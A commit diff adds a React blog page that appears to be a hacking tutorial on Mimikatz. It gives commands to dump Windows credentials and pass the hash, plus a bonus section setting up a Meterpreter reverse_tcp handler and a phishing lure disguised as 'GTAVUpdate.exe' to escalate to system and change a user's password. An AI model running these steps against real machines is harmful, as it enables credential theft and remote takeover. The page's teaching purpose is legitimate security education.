

Before and after one commit to Darianlmj/Cookies.sh, a React (Create React App) app: page /post/mimikatz in a window 1280 px wide. Shown: the part 236-1690 px from the top of the page at 80% size. Before the commit the page ends 800 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Added initial blog on mimikatz

```diff
--- a/src/App.tsx
+++ b/src/App.tsx
@@ -8,6 +8,7 @@
 import Footer from './components/Footer/Footer';
 import AboutCtf from './pages/AboutCtf/AboutCtf';
 import DDosInfoPage from './pages/DDosInfoPage';
+import MimikatzPage from './pages/MimikatzPage';
 
 import SettingUpKaliLinuxPage from './pages/SettingUpKaliLinuxPage';
 import CtfInvestigatingWindowsPage from './pages/CtfInvestigatingWindowsPage';
@@ -28,6 +29,7 @@
         <Route path='/post/setting-up-kali-linux' component={SettingUpKaliLinuxPage} exact/>
         <Route path='/post/ddos-attacks' component={DDosInfoPage} exact/>
         <Route path='/post/investigating-windows' component={CtfInvestigatingWindowsPage} exact/>
+        <Route path='/post/mimikatz' component={MimikatzPage} exact/>
       </Switch>
       <Footer/>
     </Router>
--- a/src/index.css
+++ b/src/index.css
@@ -5,12 +5,12 @@
   -moz-osx-font-smoothing: grayscale;
 }
 
-code {
+code, .code-fragment {
   font-family: SFMono-Regular,Consolas,Liberation Mono,Menlo,monospace;
 }
 
 pre code {
-  scrollbar-color: #666 #201c29;
+  scrollbar-color: #666 #222029;
   background: none;
   white-space: pre;
   display: block;
@@ -49,3 +49,8 @@
   text-decoration: underline;
   color: red;
 }
+
+.code-fragment {
+  background: #4b4b4b;
+  padding: 0 5px;
+}
--- /dev/null
+++ b/src/pages/MimikatzPage.tsx
@@ -0,0 +1,81 @@
+import { Container } from '@mui/material'
+import '../index.css'
+import React from 'react'
+
+const MimikatzPage = () => {
+  return (
+    <Container  style={{ color: '#ffffff' }}>
+      <h1 className='post-title'>Passing the Hash with Mimikatz</h1>
+      <p>
+        In this article, I'll walk you through how to use Mimikatz to obtain
+        user passwords from a Windows machine. I'll also show you how to use
+        Mimikatz in order to perform an attack called passing the hash (pth) to
+        escalate your privileges and impersonate a user. Also as a bonus, I'll
+        show you how you can utilise both a Meterpreter reverse shell and a
+        phishing attack in order to get the same outcome but without needing
+        physical access to the target's machine.
+      </p>
+      <h3>Pre Set Up</h3>
+      <ul>
+        <li>A target (preferably with consent)</li>
+        <li>A windows machine with multiple user account (peferably one which has admin access)</li>
+        <li>The Windows Defender (aka Window's firewall) has been turned off</li>
+        <li>Mimikatz (and metasploit if you are attempting the bonus feature) downloaded</li>
+      </ul>
+
+
+      <h3>The Simple Way</h3>
+      <ol>
+        <li>Log on as <span className='code-fragment'>FakeUser</span> and demonstrate that without system admin privilege, we can't change the password of another account.</li>
+        <li>Launch Mimikatz as admin</li>
+        <li>Use command <span className='code-fragment'>privilege::debug</span> to escalate privileges</li>
+        <li>Use command <span className='code-fragment'>sekurlsa::logonpasswords</span> to dump all user passwords.</li>
+        <li>Get the hash of the user we want to impersonate (in this case, it's <span className='code-fragment'>User</span>) and the domain of the <span className='code-fragment'>FakeUser</span> account.</li>
+        <li>
+          Use command:
+          <pre><code>sekurlsa::pth /user:User /domain:WINDEV2110EVAL /ntlm:[insert_hash_here]</code></pre>
+        </li>
+        <li>A new console opens up.</li>
+        <li>Demonstrate that the system thinks we are still <span className='code-fragment'>FakeUser</span> but we definitely are <span className='code-fragment'>User</span>.</li>
+        <li>Now try changing the password and it will work.</li>
+      </ol>
+
+      <h3>Bonus: The Fancy Way</h3>
+      <ol>
+        <li>Launch Kali</li>
+        <li>Open terminal and get IP using <pre><code>ip addr</code></pre></li>
+        <li>Launch Metasploit using <pre><code>msfconsole</code></pre></li>
+        <li>
+          Use commands:
+          <pre>
+            <code>
+              use multi/handler
+              <br></br>
+              set payload windows/meterpreter/reverse_tcp
+              <br></br>
+              set LHOST [IP address]
+              <br></br>
+              set LPORT 4444
+            </code>
+          </pre>
+        </li>
+        <li>Open another console and <span className='code-fragment'>cd /var/www/html</span></li>
+        <li>Start the apache server using <span className='code-fragment'>service apache2 start</span></li>
+        <li>Switch back to the meterpreter console and type <pre><code>exploit</code></pre></li>
+        <li>Switch over to the Windows machine and talk about how a simple social engineering can be done to gain access.</li>
+        <li>Once launch <span className='code-fragment'>GTAVUpdate.exe</span>, go back to Kali.</li>
+        <li>Show that we are now impersonating this user by <span className='code-fragment'>getuid</span></li>
+        <li>Escalate our privileges by <span className='code-fragment'>getsystem</span></li>
+        <li>Show that we are now system admin by <span className='code-fragment'>getuid</span></li>
+        <li>Load mimikatz using <span className='code-fragment'>load mimikatz</span></li>
+        <li>Show that we can get user password ntlm hashes using <span className='code-fragment'>lsa_dump_sam</span></li>
+        <li>Type in <span className='code-fragment'>shell</span></li>
+        <li>This launches the shell and we can verify that we are system admin by <span className='code-fragment'>whoami</span></li>
+        <li>Change password using <span className='code-fragment'>net user User hello</span></li>
+      </ol>
+
+    </Container>
+  )
+}
+
+export default MimikatzPage
```
